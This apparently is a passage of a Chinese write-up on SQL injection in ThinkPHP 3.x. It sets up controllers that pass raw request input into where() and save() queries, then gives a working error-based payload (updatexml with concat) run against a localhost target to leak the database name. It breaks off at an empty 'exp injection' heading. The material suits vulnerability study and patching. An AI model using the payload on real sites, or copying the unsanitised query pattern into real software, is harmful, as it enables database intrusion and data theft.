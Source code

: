 ```php
<?php
namespace Home\Controller;
use Think\Controller;
class IndexController extends Controller {
    public function index(){
        $this->show('<style type="text/css">*{ padding: 0; margin: 0; } div{ padding: 4px 48px;} body{ background: #fff; font-family: "微软雅黑"; color: #333;font-size:24px} h1{ font-size: 100px; font-weight: normal; margin-bottom: 12px; } p{ line-height: 1.8em; font-size: 36px } a,a:hover{color:blue;}</style><div style="padding: 24px 48px;"<h1>:)</h1><p>欢迎使用 <b>ThinkPHP</b>！</p><br/>版本 V{$Think.version}</div><script type="text/javascript" src="http://ad.topthink.com/Public/static/client.js"></script><thinkad id="ad_55e75dfae343f5a1"></thinkad><script type="text/javascript" src="http://tajs.qq.com/stats?sId=9347272" charset="UTF-8"></script>','utf-8');
        $User = D('Users');
        $map = array('user' =$_GET['user']);
        $user = $User->where($map)->find();
        var_dump($user);
    }
}
```
## bind注入控制器配置

```php
<?php
namespace Home\Controller;
use Think\Controller;
class IndexController extends Controller {
    public function index(){
        $this->show('<style type="text/css">*{ padding: 0; margin: 0; } div{ padding: 4px 48px;} body{ background: #fff; font-family: "微软雅黑"; color: #333;font-size:24px} h1{ font-size: 100px; font-weight: normal; margin-bottom: 12px; } p{ line-height: 1.8em; font-size: 36px } a,a:hover{color:blue;}</style><div style="padding: 24px 48px;"<h1>:)</h1><p>欢迎使用 <b>ThinkPHP</b>！</p><br/>版本 V{$Think.version}</div><script type="text/javascript" src="http://ad.topthink.com/Public/static/client.js"></script><thinkad id="ad_55e75dfae343f5a1"></thinkad><script type="text/javascript" src="http://tajs.qq.com/stats?sId=9347272" charset="UTF-8"></script>','utf-8');
        $User = M("Users");
        $user['user_id'] = I('id');
        $data['last_name'] = I('last_name');
        $valu = $User->where($user)->save($data);
        var_dump($valu);
    }
}
```
# 漏洞利用
## where注入
Payload：`http://127.0.0.1/cms/?id[where]=1 and 1=updatexml(1,concat(0x7e,(select  database()),0x7e),1)#`

![在这里插入图片描述](https://img-blog.csdnimg.cn/c0ee9d1456f54adc8ee666329f6821a1.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)
## exp注入
